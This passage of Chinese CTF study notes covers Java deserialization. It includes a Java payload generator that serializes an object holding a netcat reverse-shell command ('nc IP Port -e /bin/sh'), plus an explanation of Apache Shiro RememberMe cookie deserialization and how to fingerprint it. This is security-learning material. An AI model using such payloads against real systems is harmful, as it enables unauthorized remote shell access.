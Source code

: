 ```

package com.ctfshow.entity;

public class UserPayload {
    public static void main(String[] args) throws Exception {
        String userDataPost = null;
        User user = new User("nc IP Port -e /bin/sh");
        try {
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream os = new ObjectOutputStream(byteArrayOutputStream);
            os.writeObject(user);
            os.close();
            byte[] userData = byteArrayOutputStream.toByteArray();
            userDataPost = new String(Base64.getEncoder().encode(userData));
            System.out.println(userDataPost);
        } catch (FileNotFoundException e) {
            e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        }
        
    }
}
```

**绕过**

- readUnshared()

  readUnshared()不允许后续的readObject和readUnshared调用引用这次调用反序列化得到的对象，而readObject读取的对象可以。

### [Shiro反序列化](https://www.cnblogs.com/xiaozi/p/13239046.html)

[详情与利用](https://blog.csdn.net/m0_46363249/article/details/122259407?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522167646752616800192251873%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=167646752616800192251873&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~pc_rank_34-18-122259407-null-null.142^v73^pc_new_rank,201^v4^add_ask,239^v1^insert_chatgpt&utm_term=shiro&spm=1018.2226.3001.4187)

漏洞原理

 Apache Shiro框架提供了记住我的功能（RememberMe），用户登陆成功后会生成经过加密并编码的cookie，在服务端接收cookie值后，Base64解码–>AES解密–>[反序列化](https://so.csdn.net/so/search?q=反序列化&spm=1001.2101.3001.7020)。攻击者只要找到AES加密的密钥，就可以构造一个恶意对象，对其进行序列化–>AES加密–>Base64编码，然后将其作为cookie的rememberMe字段发送，Shiro将rememberMe进行解密并且反序列化，最终造成反序列化漏洞。

**判断**：

- 未登陆的情况下，请求包的cookie中没有rememberMe字段，返回包set-Cookie里也没有deleteMe字段
- 登陆失败的话，不管勾选RememberMe字段没有，返回包都会有rememberMe=deleteMe字段
- 不勾选RememberMe字段，登陆成功的话，返回包set-Cookie会有rememberMe=deleteMe字段。但是之后的所有请求中Cookie都不会有rememberMe字段
- 勾选RememberMe字段，登陆成功的话，返回包set-Cookie会有rememberMe=deleteMe字段，还会有rememberMe字段，之后的所有请求中Cookie都会有rememberMe字段
